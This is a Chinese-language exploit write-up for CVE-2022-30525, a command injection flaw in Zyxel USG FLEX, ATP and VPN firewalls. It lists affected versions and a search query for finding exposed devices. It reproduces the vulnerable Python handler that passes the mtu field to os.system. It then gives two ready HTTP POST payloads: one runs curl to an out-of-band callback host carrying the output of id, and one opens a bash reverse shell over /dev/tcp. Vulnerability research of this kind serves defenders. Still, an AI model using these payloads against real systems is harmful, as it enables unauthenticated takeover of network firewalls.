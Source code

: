 # Zyxel USG FLEX handler 远程命令执行漏洞 CVE-2022-30525

## 漏洞描述

Rapid7 发现并报告了一个漏洞，该漏洞影响支持零接触配置 (ZTP) 的 Zyxel 防火墙，其中包括 ATP 系列、VPN 系列和 USG FLEX 系列（包括 USG20-VPN 和 USG20W-VPN）。该漏洞标识为 CVE-2022-30525，允许未经身份验证的远程攻击者以nobody受影响设备上的用户身份执行任意代码。

## 漏洞影响

<a-checkbox checked>USG FLEX 100、100W、200、500、700  < ZLD5.00 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>USG20-VPN、USG20W-VPN	 < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>ATP 100、200、500、700、800  < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="USG FLEX" </a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1652439754909-48eee255-7036-44e3-b6e1-6ae32e1ddc9f.png)

出现漏洞的文件为  lib_wan_settings.py 下的 setWanPortSt 方法

```java
def setWanPortSt(req):

    reply = {}
    vlan_tagged = ''
    logging.info(req)
    port = req["port"].strip()

    vlanid = req["vlanid"]
    proto = req["proto"]
    data = req["data"]
    vlan_tagged = req["vlan_tagged"]
    
    cmdLine = ''
    GUIportst = {}
    
    extname = findextname(port)

    #TODO: subprocess method
    try:
        if vlan_tagged == '1':
            if vlanid == '':
                vlanid == '0'

        if proto == "dhcp":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 11 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 1 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            if "option60" in data:
                cmdLine += ' ' + data['option60']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "static":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            prefix_length = netmask_to_cidr(data['netmask'])
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 12 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 2 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + data['ipaddr'] + ' ' + str(prefix_length) + ' ' + data['gateway'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' ' + data['firstDnsServer']
            if 'secondDnsServer' in data:
                cmdLine += ' ' + data['secondDnsServer']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "pppoe":
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 13 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 3 '
            #extname = findextname(port)

            if 'auth_type' not in data:
                data['auth_type'] = 'chap-pap'
            if 'mtu' not in req:
                req['mtu'] = '1492'
            if 'ipaddr' not in data:
                data['ipaddr'] = '0.0.0.0'
            if 'gateway' not in data:
                data['gateway'] = '0.0.0.0'
            if 'firstDnsServer' not in data:
                data['firstDnsServer'] = '0.0.0.0'

            cmdLine += extname + ' ' + port.lower() + ' ' + data['username'] + ' ' + data['password'] \
                + ' ' + data['auth_type'] \
                + ' ' + data['ipaddr'] + ' ' + data['gateway'] \
                + ' ' + data['firstDnsServer'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' >/dev/null 2>&1'
            
        logging.info("cmdLine = %s" % cmdLine)
        with open("/tmp/local_gui_write_flag", "w") as fout:
            fout.write("1");

        response = os.system(cmdLine) 
        logging.info(response)
        if response != 256:
            logging.info("cmd thread return error")
            reply = {"error": 500}
        else:
            logging.info("cmd success!!")
            reply["stdout"] = [{}]
            reply["stderr"] =""
            with open(WAN_PORT_LAST_CHANGED, "w") as fout:
                fout.write(port)
            if not os.path.exists(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD):
                reply = {"error": 500, "exception": "Cannot find data2cloud folder!"}
            with open(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD + 'local_wan_modified', 'a+') as fout:
                fout.write(port + ' ')
            
    except Exception as e:
        reply = {"error": 500, "exception": e}
   
    return reply
```

从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![img](../../../.vuepress/public/img/1652442517990-2f1e198d-0abd-46a5-bc74-e56da3ae6ccb.png)

验证POC

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";curl `id`.c9y7h342vtc00002dwxggr9tukwyyyyyj.interact.sh;","data":"hi"}
```

![img](../../../.vuepress/public/img/1652439825625-87592d2f-85fb-45ae-8148-d9be83dd654a.png)

反弹Shell

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

![img](../../../.vuepress/public/img/1652440046272-4e76d5be-0f5a-4f91-ae4a-043a9e6835a6.png)